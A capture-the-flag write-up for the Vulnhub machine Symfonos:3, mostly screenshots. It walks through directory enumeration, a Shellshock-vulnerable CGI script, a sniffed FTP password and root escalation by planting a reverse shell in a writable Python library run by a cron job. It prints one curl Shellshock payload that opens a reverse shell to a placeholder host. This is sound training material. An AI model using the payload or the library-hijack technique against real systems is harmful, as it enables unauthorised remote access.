# Symfonos:3 - Writeup 

Symfonos:3 is an Intermediate real-life based machine from Vulnhub by Zayotic.<br />
This machine is designed to test your skill at enumeration.<br />
The description says "If you get stuck remember to try different wordlist, avoid rabbit holes and enumerate everything thoroughly".<br />
Link to the machine: [https://www.vulnhub.com/entry/symfonos-3,332/](https://www.vulnhub.com/entry/symfonos-3,332/)
<br />

## Target Discovery

I'll use `netdiscover` to identify our target.

```
┌─[a7@Parrot]─[~/Desktop/vulnHub/Symfonos:3]
└──╼ $sudo netdiscover -i vboxnet0 -r 10.10.10.0/24 

Currently scanning: Finished!   |   Screen View: Unique Hosts

2 Captured ARP Req/Rep packets, from 2 hosts.   Total size: 102
_____________________________________________________________________________
	IP            At MAC Address     Count     Len  MAC Vendor / Hostname
-----------------------------------------------------------------------------
10.10.10.1      08:00:27:ec:0e:9c      1      42  PCS Systemtechnik GmbH
10.10.10.10     08:00:27:7d:79:ff      1      60  PCS Systemtechnik GmbH
```

<br />

## Ports and Services

Let's scan our target for any running services and their version.


<br />
<br />

## FTP Enumeration

Starting with the ftp, anonymous login is not allowed.


<br />
<br />

## Web Enumeration

Let's visit the website.


<br />
<br />

Just another picture, but inspecting the source code and we got a comment.


<br />
<br />

Great! Let's bust the directories.


<br />
<br />

We got a directory `/gate`, let's open it.


<br />
<br />

And another picture, let's brute-force `gate` with different wordlists.


<br />
<br />

We got `/cerberus`, let's browse it.


<br />
<br />

Brute-force again and we got `tartarus`.


<br />
<br />

Inspecting the source code.


<br />
<br />

Ok, let's brute-force again.


<br />
<br />

We got `/research` and `/hermes`, let's visit them.


<br />
<br />


<br />
<br />

Dead End. Start to enumerate from the beginning.<br />
After using different wordlists, we found another directory.


<br />
<br />

Let's visit `http://10.10.10.10/cgi-bin/underworld`.


<br />
<br />

Searching for any exploit.


<br />
<br />

Let's test if it's vulnerable.


<br />
<br />

## Getting Access

It's vulnerable to shellshock, let's find an exploit.


<br />
<br />

There's a Metasploit exploit, but I'll use curl, start a listener and run:<br />
`curl -H 'User-Agent: () { :; }; /bin/bash -i >& /dev/tcp/<Your-IP>/<PORT> 0>&1' http://10.10.10.10/cgi-bin/underworld`


<br />
<br />

After running linpeas to escalate our privileges, nothing found, upload pspy and run it.


<br />
<br />

We've got `/opt/ftpclient/ftpclient.py` it's run by root "UID=0", looks like a cron job.<br />
We'll sniff the traffic with `tcpdump -vi lo`.


<br />
<br />

As we see, user `hades` logged in with the password `PTpZTfU4vxgzvRBE`, let's try to switch to hades.


<br />
<br />

## Root Access

Now, let's head to `/opt/ftpclient/`.


<br />
<br />

Tried to replace the `ftpclient.py` file with a Python reverse shell, but it's unwritable by hades, but we may write on `ftplib` file, let's find it first.



<br />
<br />

We could write in `/usr/lib/python2.7/ftplib.py` with our permissions, let's write a reverse shell.


<br />
<br />

Now, just wait for the cronjob to run.


<br />